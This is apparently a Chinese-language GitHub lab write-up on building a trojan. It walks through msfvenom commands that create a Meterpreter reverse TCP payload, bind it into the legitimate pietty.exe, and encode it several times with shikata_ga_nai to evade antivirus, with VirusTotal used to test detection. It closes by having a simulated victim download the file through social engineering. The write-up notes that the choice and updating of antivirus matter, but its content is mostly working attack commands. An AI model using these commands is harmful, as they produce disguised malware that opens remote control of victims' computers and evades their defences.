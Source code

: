 製作一支簡單的木馬 並以模擬的方式讓被害者啟動 並控制受害者電腦

使用msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.2.106(本機IP 但厲害的攻擊者不會使用自己真的IP) LPORT=8888(要連接的port) -f 
exe> /home/rayui/test.exe(產生的檔案類型及位置)

![5](https://user-images.githubusercontent.com/49279418/117013936-e5c02400-ad22-11eb-9e76-0edfbe855a7f.png)

接者使用virus total網站來測試病毒
可以發現如此簡單的病毒都可以通過部份的防毒軟體
所以anti-virus(資安軟硬體)的選擇很重要
![6](https://user-images.githubusercontent.com/49279418/117014742-ac3be880-ad23-11eb-9eee-edce28c847f7.png)

接著做綑綁的測試(使用的是pietty.exe) 要做綑綁的原因很簡單目的是混淆防毒軟體 
而防毒軟體是去測試檔案是否有病毒的特徵 所以防毒軟體的更新很重要(不然有新型病毒一樣中招)
使用msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.2.106 LPORT=8888 -f exe 
-x /home/rayui/pietty0400b14.exe(拿來綑綁的檔案) -o /home/rayui/test2.exe(輸出目標)
![7](https://user-images.githubusercontent.com/49279418/117016799-a21ae980-ad25-11eb-9efc-14d998866bd4.png)


一樣使用virus total網站來測試病毒
可以發現有明顯的改進(可以使用msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.2.106 LPORT=8888 
-e x86/shikata_ga_nai -i 5(編碼次數) -f exe -o /home/rayui/test2.exe 來達成多次編碼以避免被偵測)
![8](https://user-images.githubusercontent.com/49279418/117017189-fcb44580-ad25-11eb-8190-baf1857e0e40.png)

接著模擬受害者點選到網頁並下載木馬程式
(此部分使用的是社交工程 在此就跳過社交工程的細節假設受害者以上鉤 避免方法)
要注意的還有攻擊者可以透過在網頁中寫惡意程式並不需要下載 甚至在mail中就可以寫入惡意程式
